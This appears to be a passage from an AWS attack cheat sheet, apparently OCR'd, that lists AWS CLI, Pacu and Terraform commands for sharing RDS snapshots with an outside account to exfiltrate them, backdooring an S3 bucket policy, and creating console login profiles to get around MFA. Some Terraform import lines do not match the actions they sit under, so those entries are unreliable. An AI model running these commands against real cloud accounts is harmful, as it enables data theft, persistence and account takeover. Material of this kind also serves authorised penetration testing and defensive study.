 
```
python3 pacu.py --use single_module --module scanner/ebs__snapshot_accessibility --aws-region <AWS_region> --snapshot-id <snapshot_ID>
```


### Exfiltrate RDS Snapshot by Sharing



```
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot_identifier> --attribute-name restore --values-to-add <recipient_account_ID> --region <AWS_region>
```


```
terraform import aws_db_snapshot.create_volume_permission <snapshot_arn>_<recipient_account_ID>
```


```
python3 pacu.py --use single_module --module scanner/rds__snapshot_accessibility --aws-region <AWS_region> --snapshot-id <snapshot_identifier>
```


### Backdoor an S3 Bucket via its Bucket Policy


```
aws s3api put-bucket-policy --bucket <bucket_name> --policy file://backdoor_policy.json
```


```
terraform import aws_s3_bucket_policy.backdoor_policy <bucket_name>
```


```
python3 pacu.py --use single_module --module backdooring/s3__bucket_policy --aws-region <AWS_region> --bucket <bucket_name>
```


### Console Login without MFA


```
aws iam create-login-profile --user-name <username> --password <password> --no-password-reset-required
```


```
python3 pacu.py --use single_module --module post_exploitation/__mfa_bypass_console_login --username <username> --aws-region <AWS_region>
```


```
terraform import aws_iam_user_login_profile.mfa_bypass <username>
```
